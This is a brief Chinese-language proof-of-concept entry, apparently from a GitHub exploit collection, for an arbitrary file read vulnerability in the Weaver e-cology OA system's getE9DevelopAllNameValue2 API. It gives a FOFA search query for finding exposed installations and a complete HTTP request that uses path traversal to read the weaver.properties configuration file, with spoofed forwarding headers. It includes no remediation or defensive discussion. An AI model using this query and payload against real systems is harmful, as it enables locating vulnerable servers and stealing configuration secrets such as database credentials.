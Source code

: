 ## 泛微getE9DevelopAllNameValue2接口存在任意文件读取漏洞

## fofa
```
app="泛微-OA（e-cology）"
```

## poc
```
GET /api/portalTsLogin/utils/getE9DevelopAllNameValue2?fileName=portaldev_%2f%2e%2e%2fweaver%2eproperties HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: */*
Connection: Keep-Alive
X-Forwarded-For: 127.0.0.1
X-Originating: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

![24965e54432f0dbd1db6d0eb73fd7aa5](https://github.com/wy876/POC/assets/139549762/c4c5a948-191f-4749-8136-a9f1576c4816)

